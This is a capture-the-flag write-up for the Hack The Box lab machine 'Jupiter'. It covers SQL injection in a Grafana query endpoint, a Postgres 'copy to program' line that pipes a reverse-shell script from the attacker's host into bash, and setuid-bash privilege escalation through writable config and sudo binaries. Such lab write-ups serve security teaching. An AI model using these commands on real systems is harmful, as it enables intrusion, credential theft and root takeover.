



# Jupiter

## Enumeration:

Start off with an nmap scan:
```vim
Nmap scan report for 10.10.11.216
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac5bbe792dc97a00ed9ae62b2d0e9b32 (ECDSA)
|_  256 6001d7db927b13f0ba20c6c900a71b41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan leaks the `jupiter.htb` domain name. We can add this to our `/etc/hosts` and check out the website. 

Unfortunately the website didn't have anything of interest so I tried to do a subdomain enumeration for `jupiter.htb` 

```vim
ffuf -u 'http://jupiter.htb' -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -c -mc all -v -H 'Host: FUZZ.jupiter.htb' -fw 6

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://jupiter.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.jupiter.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 6
________________________________________________

[Status: 200, Size: 34390, Words: 2150, Lines: 212, Duration: 227ms]
| URL | http://jupiter.htb
    * FUZZ: kiosk
```

We can add `kiosk.jupiter.htb` to `/etc/hosts` and check this webpage out. This happens to be a Grafana instance. The version of Grafana is the latest release so there likely isn't an exploit available for it. So we have to try looking into the website a bit deeper and I come across the following:



This tells us that Postgres SQL is running on this machine, but there wasn't anything that I could do about it. I was trying out directory fuzzing and got a lot of redirects and an `api` endpoint:

```vim
[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 215ms]
| URL | http://kiosk.jupiter.htb/admin
| --> | /
    * FUZZ: admin

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 253ms]
| URL | http://kiosk.jupiter.htb/plugins
| --> | /
    * FUZZ: plugins

[Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 198ms]
| URL | http://kiosk.jupiter.htb/profile
| --> | /login
    * FUZZ: profile

[Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 201ms]
| URL | http://kiosk.jupiter.htb/logout
| --> | /login
    * FUZZ: logout

[Status: 404, Size: 24, Words: 2, Lines: 2, Duration: 207ms]
| URL | http://kiosk.jupiter.htb/api
    * FUZZ: api

[Status: 302, Size: 31, Words: 2, Lines: 3, Duration: 196ms]
| URL | http://kiosk.jupiter.htb/public
| --> | /public/
    * FUZZ: public

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 229ms]
| URL | http://kiosk.jupiter.htb/live
| --> | /
    * FUZZ: live

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 220ms]
| URL | http://kiosk.jupiter.htb/connections
| --> | /
    * FUZZ: connections

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 199ms]
| URL | http://kiosk.jupiter.htb/configuration
| --> | /
    * FUZZ: configuration

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 207ms]
| URL | http://kiosk.jupiter.htb/org
| --> | /
    * FUZZ: org

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 355ms]
| URL | http://kiosk.jupiter.htb/explore
| --> | /
    * FUZZ: explore

[Status: 200, Size: 109211, Words: 3099, Lines: 1380, Duration: 467ms]
| URL | http://kiosk.jupiter.htb/metrics
    * FUZZ: metrics

[Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 253ms]
| URL | http://kiosk.jupiter.htb/datasources
| --> | /
    * FUZZ: datasources
```
I decided to run Burp and try to understand what is going on really and I came across `api/ds/query` which sends a POST request along with a SQL query in it.
```json
{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "postgres",
        "uid": "YItSLg-Vz"
      },
      "rawSql": "select \n  count(parent) \nfrom \n  moons \nwhere \n  parent = 'Saturn';",
      "format": "table",
      "datasourceId": 1,
      "intervalMs": 60000,
      "maxDataPoints": 940
    }
  ],
  "range": {
    "from": "2023-06-10T06:47:40.805Z",
    "to": "2023-06-10T12:47:40.805Z",
    "raw": {
      "from": "now-6h",
      "to": "now"
    }
  },
  "from": "1686379660805",
  "to": "1686401260805"
}
```

## Exploit

Trying out something like `select version()` in `rawSql`'s value gives you the following output:

```json
{
  "results": {
    "A": {
      "status": 200,
      "frames": [
        {
          "schema": {
            "refId": "A",
            "meta": {
              "typeVersion": [
                0,
                0
              ],
              "executedQueryString": "select version();"
            },
            "fields": [
              {
                "name": "version",
                "type": "string",
                "typeInfo": {
                  "frame": "string",
                  "nullable": true
                }
              }
            ]
          },
          "data": {
            "values": [
              [
                "PostgreSQL 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, 64-bit"
              ]
            ]
          }
        }
      ]
    }
  }
}
```

This API endpoint is vulnerable to SQLi. We can try to exfiltrate data like username and passwords, however the password is hashed and can't be cracked so we have to take another approach.

If you're using SQLmap, it becomes trivially easy to dump all information but I wanted to share the manual way to do it so that we can understand the whole process. The following are the queries you will run so we can understand the structure and exfil data:

```SQL
-- Show all Tables in database:
select table_name from information_schema.tables;

-- Show username and password from pg_shadow
select concat(usename,':', passwd) from pg_shadow;

-- Show current user
select user;

-- Show if user has superuser permission
select usename, usesuper from pg_user
```

Because our user `grafana_viewer` has superuser permission, we can perform RCE via Postgres SQL with the following command from [Hacktricks](http://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce-to-program):

```sql
copy (SELECT '') to program 'curl http://10.10.14.12:8000/shell.sh|bash';
```

You will need to have `shell.sh` containing your reverse hosted on your machine with a simple python http server and a netcat listener with `nc -lvnp <PORT>` running to catch the reverse shell.

This lets us into the machine with the user `postgres`:

```vim
postgres@jupiter:/var/lib/postgresql/14/main$ id
id
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```

This box has 2 users, juno and jovian. I tried running `linpeas.sh` but I had no luck with it, so I tried using `pspy64` and it caught a process running every 2 minutes by juno: 

```vim
2023/06/08 16:36:01 CMD: UID=1000  PID=24215  | rm -rf /dev/shm/shadow.data 
2023/06/08 16:36:01 CMD: UID=1000  PID=24214  | /bin/bash /home/juno/shadow-simulation.sh 
2023/06/08 16:36:01 CMD: UID=1000  PID=24216  | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
2023/06/08 16:36:01 CMD: UID=1000  PID=24219  | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/06/08 16:36:01 CMD: UID=1000  PID=24220  | lscpu --online --parse=CPU,CORE,SOCKET,NODE 
2023/06/08 16:36:01 CMD: UID=1000  PID=24225  | /usr/bin/python3 -m http.server 80 
2023/06/08 16:36:01 CMD: UID=1000  PID=24226  | /usr/bin/curl -s server 
2023/06/08 16:36:01 CMD: UID=1000  PID=24228  | /usr/bin/curl -s server 
2023/06/08 16:36:01 CMD: UID=1000  PID=24230  | /usr/bin/curl -s server 
2023/06/08 16:36:01 CMD: UID=1000  PID=24235  | cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/ 
```

This seems to execute `/dev/shm/network-simulation.yml` so I checked it out and found the following:

```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

This seems to start a Python server on port 80 and does a `curl` command. This file was world-writable so I decided to edit the file and try to see if I can get RCE:

```vim
echo 'general:' > network-simulation.yml
echo '  # stop after 10 simulated seconds' >> network-simulation.yml
echo '  stop_time: 10s' >> network-simulation.yml
echo '  # old versions of cURL use a busy loop, so to avoid spinning in this busy' >> network-simulation.yml
echo '  # loop indefinitely, we add a system call latency to advance the simulated' >> network-simulation.yml
echo '  # time when running non-blocking system calls' >> network-simulation.yml
echo '  model_unblocked_syscall_latency: true' >> network-simulation.yml
echo '' >> network-simulation.yml
echo 'network:' >> network-simulation.yml
echo '  graph:' >> network-simulation.yml
echo '    # use a built-in network graph containing' >> network-simulation.yml
echo '    # a single vertex with a bandwidth of 1 Gbit' >> network-simulation.yml
echo '    type: 1_gbit_switch' >> network-simulation.yml
echo '' >> network-simulation.yml
echo 'hosts:' >> network-simulation.yml
echo '  # a host with the hostname 'server'' >> network-simulation.yml
echo '  server:' >> network-simulation.yml
echo '    network_node_id: 0' >> network-simulation.yml
echo '    processes:' >> network-simulation.yml
echo '    - path: /usr/bin/cp' >> network-simulation.yml
echo '      args: /bin/bash /tmp/trash' >> network-simulation.yml
echo '      start_time: 3s' >> network-simulation.yml
echo '  # three hosts with hostnames 'client1', 'client2', and 'client3'' >> network-simulation.yml
echo '  client:' >> network-simulation.yml
echo '    network_node_id: 0' >> network-simulation.yml
echo '    quantity: 3' >> network-simulation.yml
echo '    processes:' >> network-simulation.yml
echo '    - path: /usr/bin/chmod' >> network-simulation.yml
echo '      args: u+s /tmp/trash' >> network-simulation.yml
echo '      start_time: 5s' >> network-simulation.yml
```

I did it this way because I was unable to get a stable shell on the machine, although you can probably do it on vim if you are fine with weird text formatting. This above yaml file will copy `/bin/bash` to file `/tmp/trash` and give it Set UID permission.

We can go to `/tmp` and execute `./trash -p` in order to get a shell with EID of juno. From there, I went to Juno's home and ran `ssh-keygen` in order to get an ssh connection so that I would have a stable shell. Remember to set `authorized_keys` permission to 400 with `chmod` after you copy the public key to it.

User flag can be found in `/home/juno/user.txt`

## Privilege Escalation

### Juno to Jovian:

Now that we have juno's account, we can see that Juno and Jovian are part of a group called `science`. There is a folder in `/opt` which is owned by the science group:

```vim
juno@jupiter:/opt/solar-flares$ ls -la
total 2620
drwxrwx--- 4 jovian science    4096 Jun  8 20:20 .
drwxr-xr-x 3 root   root       4096 May  4 18:59 ..
-rw-rw---- 1 jovian science  646164 Mar  8 09:11 cflares.csv
-rw-rw---- 1 jovian science  708058 Mar  8 09:11 flares.csv
-rw-rw---- 1 jovian science   10230 Mar  8 09:11 flares.html
-rw-r----- 1 jovian science  234001 Mar  8 13:06 flares.ipynb
drwxrwxr-x 2 jovian science    4096 Jun  8 20:20 .ipynb_checkpoints
drwxrwxr-t 2 jovian science    4096 Jun  8 10:31 logs
-rw-rw---- 1 jovian science 1010424 Mar  8 09:11 map.jpg
-rw-rw---- 1 jovian science   26651 Mar  8 09:11 mflares.csv
-rwxr-xr-x 1 jovian science     147 Mar  8 11:37 start.sh
-rw-rw-r-- 1 jovian jovian     1434 Jun  8 20:20 Untitled1.ipynb
-rw-rw-r-- 1 jovian jovian       72 Jun  8 20:20 Untitled2.ipynb
-rw-rw-r-- 1 jovian jovian     2383 Jun  8 18:06 Untitled.ipynb
-rw-rw---- 1 jovian science    1992 Mar  8 09:11 xflares.csv
```

Looking at `start.sh` we see this:

```vim
juno@jupiter:/opt/solar-flares$ cat start.sh 
#!/bin/bash
now=`date +"%Y-%m-%d-%M"`
jupyter notebook --no-browser /opt/solar-flares/flares.ipynb 2>> /opt/solar-flares/logs/jupyter-${now}.log &
```

This just tells us that jupyter notebook is running on this machine and sending its logs to the log directory and naming them according to the time. Looking at the logs, There are a number of logs based on time, so I decided to read a random log and try to see what is going on:

```vim
juno@jupiter:/opt/solar-flares/logs$ cat jupyter-2023-03-09-11.log
[W 12:11:34.842 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 12:11:34.854 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 12:11:34.854 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 12:11:34.854 NotebookApp] http://localhost:8888/?token=3c02358351a9f5dddc49de8529d8d70b72ad1bf3447da316
[I 12:11:34.854 NotebookApp]  or http://127.0.0.1:8888/?token=3c02358351a9f5dddc49de8529d8d70b72ad1bf3447da316
[I 12:11:34.854 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 12:11:34.859 NotebookApp] No web browser found: could not locate runnable browser.
[C 12:11:34.859 NotebookApp] 
    
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-869-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=3c02358351a9f5dddc49de8529d8d70b72ad1bf3447da316
     or http://127.0.0.1:8888/?token=3c02358351a9f5dddc49de8529d8d70b72ad1bf3447da316
[C 12:12:24.269 NotebookApp] received signal 15, stopping
[I 12:12:24.269 NotebookApp] Shutting down 0 kernels
```

This shows that jupyter notebook is running on port 8888 and this log is essentially giving us a token to access the notebook. So we have to do port forwarding and run a reverse proxy tunnel to try and access this. This can be done with the following command:

```vim
ssh -L 8888:localhost:8888 juno@<IP> -i <Private_KEY>
```

This lets us access port 8888 on our localhost. So lets try to get in with the token in the latest log. Looking at the website, we see an option to have a Python Interpreter:



We can perform RCE by using this Python Interpreter:



This lets us run `/tmp/lmao -p` giving us a shell with Jovian's EID. We can go to Jovians's home and do the same `ssh-keygen` command in order to get a better shell. 

### Jovian to Root:

After logging in as Jovian, we can run `sudo -l` and see the following:

```vim
jovian@jupiter:~$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

Looking at the `sattrack` binary, we see something very interesting if we look at its owner:

```vim
jovian@jupiter:~$ ls -la /usr/local/bin/sattrack
-rwxrwxr-x 1 jovian jovian 1396520 Jun  8 18:18 /usr/local/bin/sattrack
```

Since the binary is owned by Jovian, we can edit the file as we see fit in order to execute commands as root. I did the following:
```vim
jovian@jupiter:~$ cp /bin/bash /usr/local/bin/sattrack 
jovian@jupiter:~$ sudo /usr/local/bin/sattrack -p
root@jupiter:/home/jovian# id
uid=0(root) gid=0(root) groups=0(root)
```

Root Flag can be found in `/root/root.txt`
